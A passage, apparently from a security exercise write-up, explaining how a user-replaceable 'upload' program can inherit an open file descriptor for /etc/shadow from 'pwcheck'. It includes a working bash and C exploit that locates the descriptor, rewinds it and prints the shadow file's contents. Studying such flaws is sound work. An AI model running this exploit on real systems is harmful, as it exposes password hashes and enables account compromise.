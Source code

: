 Since the `/usr/local/bin/upload` program is owned by `user`, it is possible to replace `upload` with a different program that will read the file descriptor for `/etc/shadow`

![Diagram showing vulnerability in pwcheck and upload interaction](./images/c39.03.05.png "Vulnerability in pwcheck and upload Interaction")

6. Write the exploit

```bash
#!/bin/bash

# Find file descriptor for /etc/shadow
FD=$(ls -al /proc/self/fd | grep shadow | awk '{print $9}')
echo $FD

# Create a C program to re-seek the file descriptor back to the start
cat << EOF > /tmp/reseek.c
#include <sys/types.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv) {
  int fd = atoi(argv[1]);
  lseek(fd, 0, SEEK_SET);
  return 0;
}
EOF
gcc -o /tmp/reseek /tmp/reseek.c
/tmp/reseek $FD

# Read the file descriptor and print its contents
cat <&$FD
```
